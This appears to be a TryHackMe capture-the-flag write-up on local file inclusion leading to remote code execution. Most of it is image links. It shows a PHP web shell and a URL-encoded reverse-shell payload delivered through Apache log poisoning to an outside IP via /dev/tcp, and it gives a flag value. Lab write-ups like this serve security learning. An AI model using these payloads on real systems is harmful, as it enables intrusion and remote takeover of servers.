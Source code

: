 ![Pasted image
20240209021724.png](https://github.com/sudo-awk/CTF/blob/main/THM/File_Inclusion-Path_Traversal/Pasted%20image%2020240209033647.png){.internal-embed
touched="true"}

### File Inclusion Types

![Pasted image
20240209021805.png](/home/aaron/Documents/thm/Pasted%20image%2020240209021805.png){.internal-embed
touched="true"}

### PHP WRAPPER

    PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.
    Copy

![Pasted image
20240209033546.png](/home/aaron/Documents/thm/Pasted%20image%2020240209033546.png){.internal-embed
touched="true"}

    Task 8 LFI2RCE - Wrappers

    I copied the `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` and submitted it to the server

    Copy

![Pasted image
20240209032424.png](/home/aaron/Documents/thm/Pasted%20image%2020240209032424.png){.internal-embed
touched="true"}

    and then I used this payload to get a reverse shell 

    page=/var/log/apache2/access.log&&cmd=/bin/bash -c '0<%26196%3Bexec 196<>%2Fdev%2Ftcp%2F10.6.29.207%2F9001%3B sh <%26196 >%26196 2>%26196'

    this is just a url encoded payload i crafted from revshells.com
    Copy

![Pasted image
20240209032701.png](/home/aaron/Documents/thm/Pasted%20image%2020240209032701.png){.internal-embed
touched="true"}

    THM{fl4g_cd3c67e5079de2700af6cea0a405f9cc}
    Copy

    and finally the most important part is mitigation
    Copy

**![Pasted image
20240209033150.png](/home/aaron/Documents/thm/Pasted%20image%2020240209033150.png){.internal-embed
touched="true"}**
